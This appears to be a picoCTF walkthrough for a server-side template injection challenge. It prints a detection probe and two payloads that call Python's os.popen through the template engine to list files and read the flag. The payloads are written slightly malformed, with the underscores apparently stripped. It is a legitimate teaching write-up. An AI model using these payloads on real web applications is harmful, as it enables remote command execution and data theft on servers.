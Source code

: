 # 🛡️ PicoCTF Lab Walkthrough – SSTI 1

## 📌 Challenge Info
- **Category**: Web Exploitation
- **Difficulty**: Medium

---

## 📝 Challenge Description
The application was vulnerable to Server-Side Template Injection (SSTI) in an input field.

---

## 🔍 Initial Recon
- **Files provided**: None
- **Services/Ports**: Web application
- **Hints given**: None

---

## 🛠️ Tools & Commands Used
| Tool / Command | Purpose |
|----------------|---------|
| SSTI payloads | Test template injection |
| OS commands | File access |

---

## 🧠 Step-by-Step Solution
1. Tested:
{{7*7}}

Response: `49` → SSTI confirmed.
2. Directory listing:
{{request.application.globals.builtins.import('os').popen('ls -R').read()}}

3. Retrieved flag:
{{request.application.globals.builtins.import('os').popen('cat flag').read()}}

---

## 🧾 Flag
picoCTF{[actual_flag_here]}

---

## 📚 Learning Outcomes
- SSTI can lead to full RCE.
- Sanitizing template input is essential.

---

## 🔗 References
- [PortSwigger – SSTI](https://portswigger.net/research/server-side-template-injection)
